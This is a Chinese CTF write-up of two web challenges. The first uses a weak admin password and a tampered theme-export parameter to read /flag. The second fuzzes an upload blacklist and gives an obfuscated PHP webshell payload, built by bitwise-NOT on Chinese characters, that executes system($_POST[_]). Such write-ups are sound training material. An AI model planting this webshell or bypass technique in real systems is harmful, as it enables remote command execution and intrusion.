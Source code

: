 ```python

```

# [GKCTF 2021]easycms

后台admin.php

这个可以开burp扫一下，或者用dirsearch扫一下，一些url会自动跳转index.php

后台密码12345

一般后台会考虑写马连接，这里不是直接编辑网页源代码，点设计->主题->导出
![在这里插入图片描述](https://img-blog.csdnimg.cn/2c4f1c4c020749ae8ff40cc277eeb25f.png)
抓包会发现下载文件传的参数
![在这里插入图片描述](https://img-blog.csdnimg.cn/abc34886f7ab41e3b6aea02a167de8b0.png)
改为`/flag`的base64编码即可下载flag


# [SUCTF 2018]GetShell

>[向大佬学习](https://blog.csdn.net/qq_43431158/article/details/108089364)

```php

if($contents=file_get_contents($_FILES["file"]["tmp_name"])){
    $data=substr($contents,5);
    foreach ($black_char as $b) {
        if (stripos($data, $b) !== false){
            die("illegal char");
        }
    }     
} 

```
1. 首先进行模糊测试，测黑名单过滤了哪些字符，代码段检测文件第五位之后的内容
 ![在这里插入图片描述](https://img-blog.csdnimg.cn/4535997c48554d518ba7d72a85fc9ec5.png)
burp   fuzz
能用的字符如下
![在这里插入图片描述](https://img-blog.csdnimg.cn/bef835c0737f42848147432ee16da6ab.png)
使用取反RCE，本题不能用双引号，看大佬博客拉来的payload

```php
$_=[]; //array
$__=$_.$_; /arrayarray
$_=($_==$__);//$_=(array==arrayarray) false 0
$__=($_==$_);//$__=(array==array) true 1

$___=~区[$__].~冈[$__].~区[$__].~勺[$__].~皮[$__].~针[$__];//system
$____=~码[$__].~寸[$__].~小[$__].~欠[$__].~立[$__];//_POST

$___($$____[_]);//system($_POST[_]);


```
